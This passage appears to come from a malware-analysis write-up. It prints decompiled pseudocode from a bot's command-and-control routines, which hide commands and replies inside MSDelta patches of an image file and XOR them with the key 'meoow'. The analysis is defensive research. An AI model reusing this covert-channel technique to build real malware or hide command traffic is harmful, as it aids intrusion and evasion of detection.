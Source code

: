 ```c
    {
RECV_END:
      if ( u_apply_delta_from_Src(recv_buf, dwBytes, &Src) != 1 )  {
        v17 = Size;
        v9 = GetProcessHeap();
        dst = HeapAlloc(v9, 8u, v17);
        v18 = Size;
        lpStart = Src.lpStart;
        *a2 = (DWORD)dst;
        memcpy(dst, lpStart, v18);
        v11 = Size;
        j = 0;
        *(_DWORD *)a3_len_out = Size;
        if ( v11 )
        {
          do {                                   // decrypt buffer          
            *(_BYTE *)(*a2 + j) ^= aMeoow[j % 5];// meoow
            ++j;
          } while ( j < *(_DWORD *)a3_len_out );
        }
        v4 = 0;
      }
    }
  }
  if ( Src.lpStart )
    DeltaFree(Src.lpStart);
  if ( recv_buf )
  {
    v13 = GetProcessHeap();
    HeapFree(v13, 0, recv_buf);
  }
  return v4;
}
```

Function `u_apply_delta_from_Src` is essentially a wrapper for
[ApplyDeltaB](https://docs.microsoft.com/en-us/windows/win32/devnotes/msdelta-applydeltab). That is,
when the bot receives a command (which is encrypted as a patch file), it applies its delta to the
image file and then uses a simple XOR decryption (key is `meoow`). To send the command output back
to the server, it invokes `u_encrypt_delta_n_send_buf` at `1000111Eh`:
```c
int __usercall u_encrypt_delta_n_send_buf@<eax>(_BYTE *a1_buf@<edx>, SOCKET a2_sock@<ecx>, size_t a3_buflen) {
  /* decls */
  if ( a3_buflen ) {
    do {                                        // encrypt input buffer
      a1_buf[i] ^= aMeoow[i % 5];
      ++i;
    } while ( i < a3_buflen );
    v3 = 1;
  }
  target_len = hSrc * wSrc;
  v16 = hSrc * wSrc;
  ProcessHeap = GetProcessHeap();
  target = HeapAlloc(ProcessHeap, 8u, v16);
  memcpy(target, Src, target_len);              // copy source buffer
  memcpy(target, a1_buf, a3_buflen);            // overwrite the first part of Src
  zero = u_create_delta(target_len, Src, target, target_len, &lpDelta); // CreateDeltaB
  if ( target )
  {
    v9 = GetProcessHeap();
    HeapFree(v9, 0, target);
  }
```